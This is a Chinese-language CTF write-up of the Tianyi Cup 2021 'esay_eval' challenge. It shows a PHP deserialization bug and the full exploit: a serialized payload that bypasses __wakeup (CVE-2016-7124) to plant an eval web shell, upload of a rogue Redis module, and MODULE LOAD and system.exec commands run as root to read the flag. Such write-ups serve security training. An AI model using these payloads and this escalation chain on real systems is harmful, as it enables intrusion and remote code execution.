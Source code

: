 ```yaml
---
title: 天翼杯2021 esay_eval
date: 2022-05-11 20:41:07
toc: false
tags: 
    - CTF
    - 反序列化
    - RCE
categories: CTF
my: esay_eval
---
```


题目源码：

``` php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

上来是个简单（bushi）的反序列化拿shell，但是A类里面的`__wakeup()`函数会把我们传进去的`$code`属性置为空，这里我们只需要让`__wakeup()`函数失效，CVE-2016-7124:当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。(也可上b站看[视频学习](https://www.bilibili.com/video/BV1Z54y1U7up?spm_id_from=333.880.my_history.page.click)）

```php
<?php
class a{
	function __construct(){
		$this->code = $code;
	}
}
class B{
	function __construct(){
		$this->a = $a;
	}
}
$a = new a();
$a->code = 'eval($_POST[1]);';
$b = new B();
$b->a = $a;
echo serialize($b);
?>
```

得到了payload：?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}直接不犹豫连接蚁剑.当我们以为就此结束可以拿到flag我们点击根目录发现这个shell没有访问权限，但是在/var/www/html中有上传权限，所以可以通过上传恶意的so文件，通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件（提供一[下载地址](https://github.com/Dliv3/redis-rogue-server)）

![image.png](https://s2.loli.net/2022/05/11/jnw9QXU8NWF5eK1.png)

**注**：因为插件市场这个东西，国内基本是访问不到，我在用蚁剑访问的时候，就一直转圈圈转不出来，所以可以使用github的插件仓库下载插件，然后手动放到**antSword-master/antData/pulgins**中，再次打开蚁剑后，会自动加载该插件（或者科学上网）

我们上传一个exp.so文件

![image.png](https://s2.loli.net/2022/05/11/hBI54UzwPbXysgo.png)

![image.png](https://s2.loli.net/2022/05/11/39SgHdzWhoZRnEJ.png)

密码是根据/var/www/html中有个config.php.swp文件，其中有密码

![image.png](https://s2.loli.net/2022/05/11/pcECsYOIgrRfPv5.png)

![image.png](https://s2.loli.net/2022/05/11/4w9d3VIzTHDgM1x.png)

然后执行指令

![image.png](https://s2.loli.net/2022/05/11/8CGLhlsyeDYir3N.png)

```
MODULE LOAD /var/www/html/exp.so
system.exec "whoami"
```

这里我们发现是root权限

![image.png](https://s2.loli.net/2022/05/11/lAhN2fa8yWSCPwk.png)

直接看根目录   然后找到flag

```
system.exec "ls /"
system.exec "cat /flag*"
```
